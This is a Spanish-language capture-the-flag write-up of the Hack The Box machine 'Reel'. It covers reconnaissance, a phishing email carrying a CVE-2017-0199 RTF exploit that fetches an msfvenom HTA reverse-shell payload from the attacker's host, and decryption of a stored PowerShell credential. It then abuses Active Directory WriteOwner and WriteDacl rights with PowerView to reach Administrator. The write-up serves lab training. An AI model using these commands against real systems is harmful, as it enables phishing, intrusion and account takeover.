# Reel

`Reel` es una máquina de dificultad media a alta, que requiere un ataque del lado del cliente para eludir el perímetro y destaca una técnica para obtener privilegios en un entorno de Active Directory.

<figure><figcaption></figcaption></figure>

## Reconnaissance <a href="#reconnaissance" id="reconnaissance"></a>

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Reel**.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.77 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX.

```bash
nmap -sCV -p21,22,25,135,139,445,593,49159 10.10.10.77 -A -oN targeted -oX targetedXML
```

<figure><figcaption></figcaption></figure>

Transformaremos el archivo XML obtenido en el resultado de **nmap** y lo transformaremos en un archivo HTML. Levantaremos un servidor HTTP con Python3.

```bash
xsltproc targetedXML > index.html

python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

Accederemos a[ http://localhost](http://localhost) y comprobaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Procederemos a realizar un reconocimiento inicial de la máquina a través de la herramienta de **Netexec** y verificaremos el nombre del equipo y del dominio.

Procederemos a añadir las entradas en nuestro archivo **/etc/hosts.**

```bash
nxc smb 10.10.10.77

catnp /etc/hosts | grep reel
```

<figure><figcaption></figcaption></figure>

## FTP Enumeration

Procederemos a realizar una enumeración al servicio del FTP, verificamos que podemos acceder con el usuario _**Anonymous**_ sin proporcionarle credenciales.

Al verificar el contenido del FTP, comprobamos que existen 3 archivos que procederemos a descargar en nuestro equipo local.

```bash
ftp 10.10.10.77

dir

cd documents

dir

prompt

mget *
```

<figure><figcaption></figcaption></figure>

Revisando el archivo _**readme.txt**_ verificamos que indica un comentario informando de enviarle un correo con algún archivo con extensión RTF el cual revisará y convertirá posteriormente.

Esto puede ser una pista para poder avanzar.

<figure><figcaption></figcaption></figure>

Revisando de los metadatos del archivo (_**Windows Event Forwarding.docx**_), nos encontramos que el "Creator" del documento es (nico@megabank.com)

```bash
exiftool Windows\ Event\ Forwarding.docx
```

<figure><figcaption></figcaption></figure>

## **Initial Access**

### **Phishing via Malicious RTF File with HTA Payload**

Procederemos a revisar el servicio SMTP (puerto 25) a través de realizar un _telnet_ para ver si podemos encontrar información sobre el servidor SMTP.

Probaremos con usuarios aleatorios, verificamos que podemos enumerar usuarios a través del correo ya que nos devuelve un estado _250 OK_.

<figure><figcaption></figcaption></figure>

Una vez identificado que el correo (nico@megabank.com) es válido al parecer, procederemos a intentar buscar información sobre archivos RTF maliciosos tal y como nos indicaba el archivo _**readme.txt**_ que nos encontramos previamente, ya que supuestamente enviándole un correo con un archivo RTF, x usuario lo abriría.

El objetivo será intentar crear un archivo RTF malicioso con un payload para otorgarnos una Reverse Shell y ganar acceso al sistema.

Realizando una búsqueda por Internet, nos encontramos el siguiente GitHub el cual realiza archivos RTF maliciosos. [GitHub CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)

<figure><figcaption></figcaption></figure>

Procederemos a descargarnos el repositorio de GitHub para intentar explotar esta vulnerabilidad, verificaremos que el exploit se ejecuta correctamente.

```bash
git clone https://github.com/bhdresh/CVE-2017-0199 && cd CVE-2017-0199

python2.7 cve-2017-0199_toolkit.py -h
```

<figure><figcaption></figcaption></figure>

Creamos un payload de **reverse shell** con extensión **HTA** porque este tipo de archivo se ejecuta directamente en Windows usando **mshta.exe**. Esto nos permite aprovechar la vulnerabilidad del archivo RTF para que cargue y ejecute el HTA malicioso fácilmente. Además, el HTA puede lanzar comandos como PowerShell, que usamos para establecer la conexión de reverse shell.


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=443 -f hta-psh -o pawned.hta
```


<figure><figcaption></figcaption></figure>

Procederemos a realizar el archivo RTF malicioso con el exploit del GitHub descargado, procederemos a generar un archivo llamado "_pawned.rtf_" indicándole que ejecute el archivo HTA que dejaremos disponible a través de un servidor web desde nuestro equipo.


```bash
python2.7 cve-2017-0199_toolkit.py -M gen -w pawned.rtf -u http://10.10.16.5/pawned.hta -t rtf -x 0
```


<figure><figcaption></figcaption></figure>

El siguiente paso será levantar un servidor web con Python donde tenemos alojado el archivo _**HTA**_, también nos pondremos en escucha por el puerto especificado en el payload HTA de la Reverse Shell, y también enviaremos un correo a (nico@megabank.com) pasándole el archivo RTF malicioso.

Verificamos que finalmente el archivo se ha enviado correctamente, y al parecer el usuario (nico@megabank.com) lo ha abierto y hemos recibido una Reverse Shell.


```bash
python3 -m http.server 80

rlwrap -cAr nc -nlvp 443

sendEmail -f gzzcoo@htb.local -t nico@megabank.com -u "IMPORTANT" -m "I'll send you the report you asked for, thanks." -a pawned.rtf -s 10.10.10.77 -v
```


<figure><figcaption></figcaption></figure>

Verificaremos que encontramos la flag de **user.txt.**

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Decrypt PowerShell Secure String Password (Shell as Tom)

Revisando el directorio (_C:\Users\nico\Desktop_), verificamos que nos encontramos con un archivo XML el cual contiene supuestamente las credenciales del usuario (Tom@htb.local).

La contraseña se encuentra en formato SecureString, por lo tanto, deberemos de desencriptarla para visualizarla en texto plano.

```powershell
dir

type cred.xml
```

<figure><figcaption></figcaption></figure>

Usamos PowerShell para importar credenciales desde un archivo `cred.xml` con `Import-Clixml`, extraer la contraseña en texto plano usando `$cred.GetNetworkCredential().Password` y mostrarla en la consola con `Write-Output`.

Verificamos que la contraseña en texto plano es: _1ts-mag1c!!!_

```powershell
$cred = Import-Clixml -Path "C:\Users\nico\Desktop\cred.xml"

$plainPassword = $cred.GetNetworkCredential().Password

Write-Output $plainPassword
```

<figure><figcaption></figcaption></figure>

Procederemos a acceder a través de SSH con estas nuevas credenciales obtenidas, verificamos que hemos ganado acceso correctamente.

```bash
ssh Tom@10.10.10.77
```

<figure><figcaption></figcaption></figure>

### Reviewing a AD BloodHound Report on machine (Shell as Claire)

Revisando el directorio del usuario actual, verificamos que nos encontramos con unos directorios al parecer de una auditoría de AD que realizaron a través de BloodHound.

<figure><figcaption></figcaption></figure>

Investigando más sobre los directorios, nos encontramos un archivo (_acls.csv_) el cual parece ser un reporte de la auditoría realizada con BloodHound.

<figure><figcaption></figcaption></figure>

Para transferirnos este archivo a nuestro equipo local, procederemos a crear un servidor SMB y a compartir el archivo.

```bash
smbserver.py smbFolder $(pwd) -smb2support

copy acls.csv \\10.10.16.5\smbFolder\acls.csv
```

<figure><figcaption></figcaption></figure>

Revisaremos que disponemos del archivo en nuestro equipo local, procederemos a abrirlo para visualizar su contenido.

<figure><figcaption></figcaption></figure>

### Abusing WriteOwner privileges (Changing a user password)

Revisando el archivo CSV, vemos que se trata de un reporte de BloodHound. Encontramos que el usuario que disponemos actualmente (tom@htb.local) dispone de permisos de _**WriteOwner**_ sobre el usuario (claire@htb.local).

Este permiso nos otorga la capacidad de cambiar la contraseña del usuario.

<figure><figcaption></figcaption></figure>

Volveremos al equipo con el usuario (tom@htb.local) y verificamos que en uno de los directorios nos encontramos con el _**PowerView.ps1**_, necesario para realizar la explotación del privilegio.

Procederemos a importar el PS1 en el equipo.

```powershell
. .\PowerView.ps1
```

<figure><figcaption></figcaption></figure>

Procederemos a convertirnos en propietarios del usuario (claire@htb.local), nos asignaremos permisos de "ResetPassword" y procederemos a modificar la contraseña del usuario.


```powershell
Set-DomainObjectOwner -identity claire -OwnerIdentity tom         

Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword                                                                                          

$cred = ConvertTo-SecureString "Password01!" -AsPlainText -Force  

Set-DomainUserPassword -Identity claire -AccountPassword $cred 
```


<figure><figcaption></figcaption></figure>

Accederemos a través del SSH con el usuario (claire@htb.local).

```bash
ssh Claire@10.10.10.77
```

<figure><figcaption></figcaption></figure>

### Abusing WriteDacl privileges on a group (Shell as Administrator)

Volviendo al archivo CSV, verificamos que el usuario que disponemos actualmente (claire@htb.local) dispone de permisos de _**WriteDacl**_ sobre el grupo "Backup\_Admins".&#x20;

Este permiso nos permite añadirnos al grupo mencionado.

<figure><figcaption></figcaption></figure>

Procederemos a añadirnos como miembros del grupo "Backup\_Admins", verificaremos que formamos parte del grupo.

```powershell
net group "Backup_Admins" claire /add /domain

net group "Backup_Admins"
```

<figure><figcaption></figcaption></figure>

Volveremos a iniciar sesión con estas credenciales en el SSH, para que los cambios se hayan asignado correctamente.

Revisamos que formando parte de este grupo, podemos listar el contenido del directorio (_C:\Users\Administrator\Desktop_). No podemos visualizar la flag de **root.txt**, pero nos encontramos con un directorio el cual contiene una copia de seguridad de Scripts.

<figure><figcaption></figcaption></figure>

Revisando el contenido de losscripts, verificamos que nos aparece una contraseña en texto plano supuestamente del Administrador.

<figure><figcaption></figcaption></figure>

Procederemos a acceder mediante el SSH con estas credenciales del usuario Administrator, verificamos el acceso correctamente y de la flag de **root.txt**

```bash
ssh Administrator@10.10.10.77
```

<figure><figcaption></figcaption></figure>
